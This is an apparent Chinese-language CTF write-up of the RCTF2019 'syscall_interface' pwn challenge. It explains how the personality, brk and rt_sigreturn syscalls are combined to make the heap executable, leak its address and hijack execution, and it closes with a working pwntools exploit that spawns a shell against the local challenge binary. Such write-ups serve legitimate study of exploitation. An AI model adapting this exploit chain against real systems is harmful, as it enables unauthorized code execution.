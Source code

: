 ```yaml
---
title: RCTF2019_syscall_interface
date: 2019-05-29 22:56:48
tags: shellcode
layout: post
---
```

复现 syscall_interface. 
<!--more-->
# syscall_INTERFACE 
[bianry][2]
题目提供了syscall的借口但是只有一个可用参数
禁止用[0x38,0x3b]的调用
全保护
对系统调用的熟悉程度或者说是学习能力比较重要.
发现自己还是知道的太少了.
本篇无干货建议移步原文.
比赛的时候没做出来赛后看的`balsn`的[write_up][1]
TQL 这个思路很奇妙
# personality
135号调用一个参数：`unsigned int personality`
查看手册`http://man7.org/linux/man-pages/man2/personality.2.html`
```c
READ_IMPLIES_EXEC (since Linux 2.6.8)
With this flag set, PROT_READ implies PROT_EXEC for mmap(2).
```
这个调用可以设置程序的一些...personality?
真有那么好的事情吗...`read`就是`exec`试试看.
```c
//https://code.woboq.org/userspace/glibc/sysdeps/unix/sysv/linux/sys/personality.h.html
enum
{
UNAME26 = 0x0020000,
ADDR_NO_RANDOMIZE = 0x0040000,
FDPIC_FUNCPTRS = 0x0080000,
MMAP_PAGE_ZERO = 0x0100000,
ADDR_COMPAT_LAYOUT = 0x0200000,
READ_IMPLIES_EXEC = 0x0400000,
ADDR_LIMIT_32BIT = 0x0800000,
SHORT_INODE = 0x1000000,
WHOLE_SECONDS = 0x2000000,
STICKY_TIMEOUTS = 0x4000000,
ADDR_LIMIT_3GB =         0x8000000
};
```
测试代码/main.c
```c
#include<stdio.h>
#include<stdlib.h>
int main()
{
__asm__(
"xor %rax,%rax\t\n"
"mov $135,%rax\t\n"
"xor %rdi,%rdi\t\n"
"mov $0x400000,%rdi\t\n"
"syscall"
);
char *a=malloc(0x100);

}
//gcc main.c -o main
```
gdb调戏之
```s
0x00600000         0x00601000         r--p    /home/n132/Desktop/main
0x00601000         0x00602000         rw-p    /home/n132/Desktop/main
0x00602000         0x00623000         rwxp    [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp    /lib/x86_64-li
```

发现之后申请的可读内存是可以执行的.
太强了...这个系统调用我见都没见过...


# brk
这个相对熟悉，比赛时也想到了用来泄漏`heap`地址之后因为时行缓冲所以我们的输入会在`heap`（如果参数小于当前brk尝试收缩，无法收缩则返回当前brk,大于则尝试拓展）。

可以去`/mm/mmap.c`里看看实现.
# sys_rt_sigreturn

在`SROP`中学习过一些皮毛.如果可以控制栈可以控制执行流.
因为`set_name`功能可以控制一定栈内容 恰好`RIP`，`csgsfs`都在比较考前的位置.所以可以用`set-name`设置
继而利用`sys_rt_sigreturn`控制`RIP`


# 思路
balsn的做法真的非常精妙.
总的是利用`brk`泄漏地址，`personality`使得`heap`可以执行，`sys_rt_sigreturn`控制执行流.
具体是:
* `personality` 参数为0x400000,`printf`时调用`malloc`,堆可执行.
* `brk`泄漏堆地址.
* `set_name`预设好`rip`和`shellcode`（别忘记设置`csgsfs`）
* 随便调用一个系统调用 利用`printf`将 `shellcode`打到`heap`上
* 调用`sys_rt_sigreturn`

# exp
```python
from pwn import *
def cmd(c):
p.sendlineafter("ice:",str(c))
def set_name(n):
cmd(1)
p.sendafter("name:",n)
def sys(rax,rdi):
cmd(0)
p.sendlineafter("ber:",str(rax))
p.sendlineafter("ment:",str(rdi))
#context.log_level='debug'
p=process('./syscall_interface')
context.arch='amd64'

sys(135,0x0400000)#0
sys(12,0)#1

p.readuntil("RET(")
base=int(p.readuntil(")")[:-1],16)-(0x0000555555778000-0x0000555555757000)
log.info(hex(base))
#rbp rbx rdx rax rcx rsp rip
rbp=base
sh="""
pop rbx
mov rsi,rsp
push rsi
syscall
ret
"""
sig=asm(sh).ljust(0x10,'\x90')+p64(0x100)+p64(0)+p64(0)+p64(base+0x100)+p64(base+0x40)+p64(0)+p64(0x33)
set_name(sig)

sys(12,0)
#gdb.attach(p,'b *0x000555555554EC8')
sys(15,0)#base-0x1000+0x10-0x60)#0

p.send(asm(shellcraft.sh()))

p.interactive()
```


# summary
比赛的时候就去找一个参数或者0参数的系统调用发现了`brk`和`sigret`但是感觉没啥用泄漏的不是libc地址.
差了`personality`，走歪了一直想办法泄漏`libc`地址

但是即使发现了`personality`的0x400000我感觉这样的利用方式我目前的实力还是有差距.
还是知识面太窄了太菜了.
`balsn`太强了
`2019`太强了



[1]: https://balsn.tw/ctf_writeup/20190518-rctf2019/#syscall_interface
[2]: https://github.com/n132/Watermalon/tree/master/RCTF-2019/pwn/syscall_interface

